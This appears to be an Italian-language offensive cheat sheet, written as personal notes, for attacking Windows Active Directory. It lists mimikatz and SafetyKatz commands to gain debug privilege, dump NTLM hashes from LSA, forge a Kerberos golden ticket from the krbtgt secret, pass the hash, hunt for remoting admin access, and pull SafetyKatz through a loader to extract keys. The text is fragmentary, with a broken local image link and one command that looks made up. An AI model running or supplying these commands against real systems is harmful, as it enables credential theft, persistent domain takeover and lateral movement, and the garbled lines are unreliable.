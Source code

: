 ### **ASSICURATI CHE STIA RUNNANDO COME PRIVILEGED**
```powershell
privilege::debug
```
### **DUMPA LE NTLM HASH**
```powershell
lsadump::lsa /patch
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
### **GOLDEN TICKET**
Crei un ticket per poter loggare quando vuoi
```MSF
golden_ticket_create //MSF
```
```MSF
lsadump::lsa /inject /name:krbtgt
```
per creare il golden ticket
```MSF
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Use loader.exe
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
